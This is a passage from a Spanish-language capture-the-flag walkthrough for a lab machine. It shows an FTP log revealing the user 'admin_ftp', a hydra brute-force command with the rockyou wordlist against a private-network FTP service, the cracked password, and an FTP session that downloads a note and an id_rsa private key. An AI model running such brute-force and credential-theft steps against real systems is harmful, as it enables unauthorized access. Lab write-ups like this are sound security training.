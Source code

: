 ```bash
[I 2021-09-28 18:44:09] 192.168.1.83:49268-[] USER 'tasiyanci' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49274-[] USER 'luken' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49270-[] USER 'ch4rm' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49282-[] FTP session closed (disconnect).
[I 2021-09-28 18:44:09] 192.168.1.83:49280-[admin_ftp] USER 'admin_ftp' logged in.
[I 2021-09-28 18:44:09] 192.168.1.83:49280-[admin_ftp] FTP session closed (disconnect).
[I 2021-09-28 18:44:12] 192.168.1.83:49272-[] FTP session closed (disconnect).
```

Si nos fijamos, es un archivo de registro donde podemos ver que se ha intentado acceder al servicio ftp con diferentes usuarios, todos fallidos excepto con el usuario `admin_ftp`

Por lo que sabiendo el usuario podríamos probar a hacer un ataque de fuerza bruta al servicio ssh con hydra usando el usuario `admin_ftp`.

# Explotación [#](explotación) {#explotación}

El comando usado para el ataque de fuerza bruta es el siguiente:

```bash
hydra -t 50 -l admin_ftp -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.34 -s 65535
```

Lanzamos el ataque y tras un minuto aproximadamente obtenemos la contraseña.

```bash
[DATA] attacking ftp://192.168.0.34:65535/
[STATUS] 900.00 tries/min, 900 tries in 00:01h, 14343499 to do in 265:38h, 50 active
[65535][ftp] host: 192.168.0.34   login: admin_ftp   password: cowboy
```

> admin_ftp:cowboy

Ahora que ya disponemos de la contraseña, el siguiente paso es conectarnos al servicio ftp para ver que nos encontramos.

```bash
❯ ftp 192.168.0.34  65535
Connected to 192.168.0.34.
220 pyftpdlib 1.5.4 ready.
Name (192.168.0.34:elc4br4): admin_ftp
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> cd share
250 "/share" is the current directory.

ftp> ls -la
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rwxrwxrwx   1 cromiphi cromiphi     1751 Sep 28  2021 id_rsa
-rwxrwxrwx   1 cromiphi cromiphi      108 Sep 28  2021 note
226 Transfer complete.

ftp> get note
local: note remote: note
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
108 bytes received in 0.00 secs (219.7266 kB/s)

ftp> get id_rsa
local: id_rsa remote: id_rsa
200 Active data connection established.
```